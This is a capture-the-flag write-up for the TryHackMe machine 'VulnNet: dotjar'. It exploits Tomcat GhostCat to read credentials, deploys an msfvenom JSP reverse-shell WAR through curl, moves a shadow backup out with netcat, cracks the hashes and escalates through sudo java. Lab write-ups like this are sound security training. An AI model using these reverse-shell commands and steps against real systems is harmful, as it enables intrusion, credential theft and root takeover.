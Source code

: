 # VulnNet: dotjar TryHackMe Writeup
### Level: `Medium` | OS: `Linux`

![logo](1.png)

## Scanning
We scan with **nmap** all ports, scripts and software versions.

![](2.png)

## Enumeration
On port 8080 we enumerate a web service with **Tomcat**.

![](3.png)

The **Tomcat** version is vulnerable to *"GhostCat"*, so using the following exploit we can exploit the vuln and read the credentials stored in *"WEB-INF/web.xml"*.

![](4.png)

## Exploitation
We create a *.war file*
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=XX.XX.XX.XX LPORT=XX -f war -o revshell.war
```
We cannot access from the graphical interface, but we can upload our *.war file* using **curl**.

```bash
curl --user 'user:password' --upload-file m3.war "http://dotjar.thm:8080/manager/text/deploy?path=/m3"
```

![](5.png)

#### Reverse shell

![](6.png)

We do a little reconnaissance, find a backup of the *"shadow"* file, transfer it to our kali with **netcat**.

![](7.png)

We crack the hashes with the **rockyou** dictionary and get the plain password of the user *"jdk-admin"*.

![](8.png)

We authenticate as the user *"jdk-admin"*, we see that we have access to the user flag and we can also execute the **java binary** as root.

![](9.png)

## Privilege Escalation
Very easy, we generate a *reverse shell* with the **msfvenom** tool and download it to the victim machine.

![](10.png)

We run the malicious binary as **SUDO**, we will get a shell as root and we can read the flag.

![](11.png)

---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

<img src='https://m3n0sd0n4ld.github.io/imgs/linkedin.png' width='40' align='center'> [David-Uton](https://www.linkedin.com/in/david-uton/)
<img src='https://m3n0sd0n4ld.github.io/imgs/twitter.png' width='43' align='center'> [@David_Uton](https://twitter.com/David_Uton)
